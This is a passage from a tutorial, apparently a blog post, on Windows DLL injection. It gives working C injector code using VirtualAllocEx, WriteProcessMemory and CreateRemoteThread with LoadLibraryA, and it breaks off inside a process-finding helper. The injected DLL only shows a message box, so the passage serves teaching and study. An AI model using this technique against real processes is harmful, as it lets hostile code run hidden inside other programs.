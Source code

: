 Our DllMain is quite straightforward. It uses the [GetProcessImageFileNameW](https://docs.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-getprocessimagefilenamew) together with [GetCurrentProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess) API to retreive a name of currently running process. Then it displays a retrieved value in a pop-up MessageBox. When run in injected process it should display victim process name, so we will know that injection was successful. Now we can compile it and put it in a directory of our choice.

## Injector code

Now we only need a code which will inject this library into the process of our choosing. We already have a recipe for this a few paragraphs above, so let us cook some code.

```
int main()
{
    DWORD pid;
    HANDLE hProcess;
    LPVOID lpBaseAddress;
    const char* dllName = "C:\\Users\\username\\source\\repos\\Dll_test\\x64\\Debug\\Dll_test.dll";
    size_t sz = strlen(dllName);
    pid = findProcessID();
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
    lpBaseAddress = VirtualAllocEx(hProcess, NULL, sz, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, dllName, sz, NULL);
    HMODULE hModule = GetModuleHandle(L"kernel32.dll");
    LPVOID lpStartAddress = GetProcAddress(hModule, "LoadLibraryA");
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpStartAddress, lpBaseAddress, 0, NULL);
    if (hThread)
    {
        printf("Injection successful!\n");
    }
    else
    {
        printf("Injection unsuccessful!\n");
    }
}
```

This is our main injector function. It's pretty simple as you can see. The main logic is in lines 8-14. These 7 lines correspond to 6 steps described before for successful DLL injection. Let's analyze them one by one:

**Line 8:** Here we execute a function to find our victim process. We can also create a new process to inject to, but in this case we will just go through the list of running processes. Function listing below

```
DWORD findProcessID()
{
    HANDLE hProcessSnap;
    HANDLE hProcess;
    PROCESSENTRY32 pe32;
    DWORD dwPriorityClass;

    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(hProcessSnap, &pe32))
    {
        CloseHandle(hProcessSnap);
        return(FALSE);
    }

    do {
```